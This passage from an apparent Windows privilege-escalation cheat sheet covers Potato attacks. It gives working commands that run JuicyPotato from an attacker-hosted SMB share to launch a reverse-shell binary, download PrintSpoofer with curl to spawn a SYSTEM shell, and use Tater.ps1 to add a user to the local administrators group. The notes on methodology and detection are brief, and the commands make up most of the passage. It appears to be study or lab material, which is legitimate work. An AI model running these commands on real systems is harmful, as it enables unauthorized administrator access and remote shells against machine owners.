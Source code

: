 ### Kali VM

1. Wait for a reverse shell on your kali machine.

### Use Juicy Potato by setting up your SMB server if the antivirus is on
```
impacket-smbserver raman `pwd` #set up SMB server
cmd /c "\\10.10.16.3\raman\juicypotato.exe -l 1337 -p \\10.10.16.3\raman\reverse.exe -t * -c {CLSID of your windows machine}"
```

### JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809. use PrintSpoofer instead.
```
curl 192.168.10.10/PrintSpoofer64.exe -o Pr.exe
.\Pr.exe -i -c cmd  OR .\PrintSpoofer32.exe -i -c powershell.exe
```

# <span style="color:lightblue">Hot Potato attack</span>

## <span style="color:lightgreen">Methodology</span>

Hot Potato takes advantage of known issues in Windows to gain local privilege escalation in default configurations, namely NTLM relay (specifically HTTP->SMB relay) and NBNS spoofing.

## <span style="color:lightgreen">Detection</span>

### Windows VM

1. We should have `SeImpersonatePrivilege` privileges enabled
```console
C:\Temp> whoami /priv
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/07560756-a313-4826-b33a-78f1e51765d9)


##  <span style="color:lightgreen">Exploitation</span>

I will be demonstrating a simple exploitation technique by adding a user to the local administrators group using [Tater.ps1](https://github.com/Kevin-Robertson/Tater/blob/master/Tater.ps1)

### Windows VM

1. Enter the following to gain administrator access
```console
C:\Temp> powershell.exe -nop -ep bypass
PS C:\Temp> Import-Module C:\Temp\Tater.ps1
PS C:\Temp> Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```
